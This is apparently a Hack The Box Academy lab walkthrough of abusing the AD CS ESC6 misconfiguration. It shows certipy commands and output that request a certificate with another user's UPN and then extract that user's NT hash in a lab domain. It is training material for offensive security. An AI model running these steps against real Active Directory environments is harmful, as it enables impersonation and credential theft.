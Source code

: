 Before abusing `ESC6`, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):

Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Abusing `ESC6` is similar to abusing `ESC1`; students need to use the `req` command of `certipy`, specifying the template `User` (which allows `Client Authentication`) for the `-template` option and the `UPN` `Jeffry` for the `-upn` option; students will attain a `PFX` certificate for the `Jeffry` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -upn jeffry
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -upn jeffry@lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 67
[*] Got certificate with UPN 'jeffry@lab.local'
[*] Certificate object SID is 'S-1-5-21-2570265163-3918697770-3667495639-1103'
[*] Saved certificate and private key to 'jeffry.pfx'
```

At last, students need to use the `auth` command of `certipy` to request a TGT for `Jeffry` and `Un-PAC-the-hash` within it; students will attain the NT hash `b9f1864b07e5fb180122e46b60f86f50`:

Code: shell

```shell
certipy auth -pfx jeffry.pfx
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy auth -pfx jeffry.pfx

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: jeffry@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'jeffry.ccache'
[*] Trying to retrieve NT hash for 'jeffry'
[*] Got hash for 'jeffry@lab.local': aad3b435b51404eeaad3b435b51404ee:b9f1864b07e5fb180122e46b60f86f50
```
